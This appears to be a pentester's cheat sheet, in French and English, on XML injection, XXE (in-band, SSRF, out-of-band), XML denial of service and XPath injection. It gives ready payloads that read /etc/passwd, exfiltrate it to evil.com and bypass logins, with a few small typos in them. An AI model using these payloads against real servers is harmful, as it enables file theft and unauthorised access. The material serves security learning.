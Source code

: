 # XXE and other XML vulnerabilities

## XML injection

Si nos inputs sont directement ajoutés en tant que nœud dans un doc xml :

* We can inject malformed string to break the parser
* On peut modifier les informations enregistrées. Par exemple si notre input consiste en notre nom et que l'app rajoute ensuite automatiquement un champ pour nos droits, on peut fabriquer notre input de force à commenter la partie générée par l'appli et à la place mettre la notre \(owasp testing guide 4 page 138 pour un exemple\).
* If the xml is converted to html, `<![CDATA[]]>` might just be stripped, making it possible to inject other script undetected

```text
<html>
 <![CDATA[<]]>script<![CDATA[>]]>alert(‘xss’)<![CDATA[<]]>/
script<![CDATA[>]]>
 </html>
<!-- to : -->
<script>alert(‘XSS’)</script>
```

## XXE - _XML External Entities_

### Inband

Si le site nous renvoi directement ce qui a été parsé, on peut envoyer ce genre de fichier :

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE inband [
    <!ELEMENT inband ANY>
    <!ENTITY xxe SYSTEM "/etc/passwd">
]>
<inband>&xxe;</inband>
```

### SSRF - _Server Side Request Forgery_

On peut faire n'importe quelle requête _au nom du serveur_ en lui faisant suivre un lien pour load un DTD externe :

```markup
<?xml version="1.0"?>
<!DOCTYPE ssrf [
    <!ENTITY request SYSTEM "http://attacker.com">
]>
<ssrf>&request;</ssrf>
```

### Out-of-band \(blind\)

Pour "exfilter" les données au cas où elles ne nous sont pas montrées, on peut forcer le serveur à faire une requête vers notre serveur avec dans le lien les données.

```markup
<!-- test.xml-->
<?xml version="1.0" encoding="UTF-8 ?>
<!DOCTYPE test SYSTEM "http://evil.com/external.dtd">
<test>&send;</test>

<!-- external.dtd -->
    <!ENTITY % file_content SYSTEM "/etc/passwd">
    <!ENTITY % wrapper "<!ENTITY send 'http://evil.com/?%file_content;'>">
    %wrapper;
```

Au cas où le contenu du fichier ferait bugger le parser, on peut abuser de _CDTATA_ :

```markup
<!-- test.xml-->
<?xml version="1.0" encoding="UTF-8 ?>
<!DOCTYPE test SYSTEM "http://evil.com/external.dtd">
<test>&send;</test>

<!-- external.dtd -->
    <!ENTITY % file_content SYSTEM "/etc/passwd">
    <!ENTITY % start "<![CDATA[">
    <!ENTITY % end "]]>">
    <!ENTITY % wrapper "<!ENTITY send 'http://evil.com/?%start;%file_content;%end;'>">
    %wrapper;
```

### DDOS

By doing this kind of request we can DDOS

```markup
<?xml version=”1.0” encoding=”ISO-8859-1”?>
 <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM “file:///dev/random” >
]>
<foo>&xxe;</foo>
```

See also "A Billion Laugh" attack

### Ressources supplémentaires

* [https://www.acunetix.com/blog/articles/band-xml-external-entity-oob-xxe/](https://www.acunetix.com/blog/articles/band-xml-external-entity-oob-xxe/) 
* [https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)

## XPath Injection

Elles suivent la même logique que les injections SQL.

Exemple :

Cette requête récupère le compte correspondant à "gandalf" avec le mdp "!3c" `string(//user[username/text()=’gandalf’ and password/text()=’!c3’]/account/text())`

En insérant ces valeurs :

* Username: ‘ or ‘1’ = ‘1
* Password: ‘ or ‘1’ = ‘1 

Elle deviendrait cela :

`string(//user[username/text()=’’ or ‘1’ = ‘1’ and password/text()=’’ or ‘1’ = ‘1’]/account/text())`

Nous permettant de nous authentifier systématiquement.

J'imagine que le même genre de chose est possible avec XQuery.

